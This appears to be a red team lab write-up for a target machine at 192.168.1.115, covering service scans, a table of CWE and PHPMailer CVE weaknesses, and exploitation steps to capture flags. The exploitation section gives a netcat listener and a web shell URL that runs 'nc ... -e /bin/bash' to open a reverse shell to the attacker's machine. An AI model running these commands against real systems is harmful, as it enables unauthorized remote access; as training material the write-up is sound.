 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** Exposure of sensitive Information to an unauthorized actor | The product exposes sensitive Information to an actor that is not explicitly authorized to have access | Allowing sensitive information to be compromised so easily can result in a breach that can have significant effects on your business
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. `nikto -C all -h 192.168.1.115`

        ![2](/Images/4/2.PNG)

    2. `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115`
    
        ![3](/Images/4/3.PNG)
    
    3. Important Files Discovered
     
        ![4](/Images/4/4.PNG)     
          
     **Flag1**

    ![5](/Images/4/5.png)

    **List of vulnerabilities**

    ![6](/Images/4/6.png)    

    **phpmailer version**

    ![7](/Images/4/7.png)  

    4. `searchsploit phpmailer`

     ![8](/Images/4/8.png)  

    4. `sudo chmod 777 exploit.sh`

    5. `./exploit.sh`

    6. In kali: `nc -lnvp 4444`

    7. `192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash`

    ![14](/Images/1/14.png)

    8. `Find /var/www -type f -name .flag*’`

    9. Go to browser and put `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`

    ![15](/Images/1/15.png)